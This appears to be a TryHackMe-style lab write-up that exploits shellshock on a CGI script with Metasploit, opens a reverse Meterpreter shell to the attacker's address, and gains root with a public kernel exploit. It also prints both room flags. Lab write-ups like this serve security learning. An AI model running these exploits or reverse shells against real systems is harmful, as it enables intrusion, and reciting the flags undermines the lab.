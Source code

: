 # writeups

```
/cgi-bin              (Status: 301) [Size: 313] [--> http://10.10.41.239/cgi-bin/]
/img                  (Status: 301) [Size: 309] [--> http://10.10.41.239/img/]
/uploads              (Status: 301) [Size: 313] [--> http://10.10.41.239/uploads/]
/admin                (Status: 301) [Size: 311] [--> http://10.10.41.239/admin/]
/css                  (Status: 301) [Size: 309] [--> http://10.10.41.239/css/]
/js                   (Status: 301) [Size: 308] [--> http://10.10.41.239/js/]
/backup               (Status: 301) [Size: 312] [--> http://10.10.41.239/backup/]
/secret 
```
http://10.10.41.239/secret/, the unique indice I got it was "Turtles?", in the title
but let's keep seeing. so nikto gave me that 
`/cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability`, after 
that I use metasploit to look for metasploit tool, and I got one and I found some 
interesting stuff like that,
```
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
`www-data`, it's the username of the webapp maybe we can got a webshell with this,
so after that what if we look for other tool to exploit this vuln.

I found an exploit,
```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > check
[+] 10.10.41.239:80 - The target is vulnerable.
```
and I also check if it's vulnerable with this tool and it's vulnerable; and after while
for config the exploit I got the meterpreter
```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.8.91.36:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.41.239
[*] Meterpreter session 1 opened (10.8.91.36:4444 -> 10.10.41.239:34261) at 2023-03-29 18:06:09 -0400

meterpreter > 
```
After that I go to ryan home, a user and got the 1st flag
`THM{Sh3llSh0ck_r0ckz}` now let's look for root flag. After getting connected I came back to the
hint that said it's an old OS, so I think maybe checking the os version and loook what I found
`Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux`
let's look if there's any exploit, and there `https://www.exploit-db.com/exploits/37292`, the right
exploit, after that I to compiled it and exec it, and here we go I got the root priv

```
www-data@ubuntu:/tmp$ gcc pocExploit.c -o hill
gcc pocExploit.c -o hill
www-data@ubuntu:/tmp$ ./hill
```
and here the flag
`THM{g00d_j0b_0day_is_Pleased}`


credit1 : https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/
good resource to know about shellshock vuln and how to exploit it

credit2 : https://vaishnavpardhi.blogspot.com/2020/10/0day-tryhackme.html
this writeups it's not too bad if you get stuck, I used it when I stuck to find the right exploit
